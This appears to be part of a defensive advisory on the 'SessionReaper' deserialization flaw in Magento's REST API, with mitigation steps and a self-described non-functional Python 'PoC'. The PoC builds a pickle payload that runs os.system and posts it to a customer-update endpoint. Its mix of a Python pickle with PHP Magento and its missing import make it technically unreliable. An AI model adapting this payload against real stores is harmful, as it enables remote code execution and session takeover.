 **Error Messages Post-Patch**:
- Versions >2.4.6: `"\"{fieldName}\" is not supported. Correct the field name and try again."`
- Versions ≤2.4.6: `"Property \"{fieldName}\" does not have accessor method \"{methodName}\" in class \"{className}\"."`

**Mitigation Steps**:
1. Download the hotfix from `repo.magento.com`.
2. Apply using Composer: Follow Adobe’s patch application guide.
3. Test in a staging environment, as custom API integrations may break.
4. Post-patch: Rotate the crypt key and scan for malware (e.g., using eComscan).

**Temporary Protections**:
- Enable a Web Application Firewall (WAF), such as Fastly or Sansec Shield.
- Monitor API traffic for suspicious nested payloads.
- Restrict access to sensitive endpoints via IP whitelisting if possible.

For Custom Attributes Serializable module: Update to version 0.4.0 using `composer require magento/out-of-process-custom-attributes=0.4.0 --with-dependencies`.

## Proof of Concept (PoC)

The following PoC is a high-level pseudocode simulation for educational purposes. It is not a functional exploit, as specific details are withheld for ethical reasons.

```python
# SessionReaper PoC Pseudocode (Python Simulation)
import requests
import base64
import pickle  # Simulate serialized data

# Malicious session payload: Example RCE object
class Malicious:
    def __reduce__(self):
        return (os.system, ('whoami',))  # Simulated RCE

malicious_session = base64.b64encode(pickle.dumps(Malicious()))

# API payload: Triggers nested deserialization
payload = {
    "customer": {
        "id": 123,
        "nested_object": {
            "__class__": "vulnerable_deserializer",
            "session_data": malicious_session.decode()  # Session manipulation
        }
    }
}

# Send request to REST API endpoint
url = "https://vulnerable-magento-site/rest/V1/customers/update"
headers = {"Content-Type": "application/json"}
response = requests.post(url, json=payload, headers=headers)

if response.status_code == 200:
    print("Session takeover successful; potential RCE executed.")
else:
    print(f"Exploit failed: {response.text}")
```
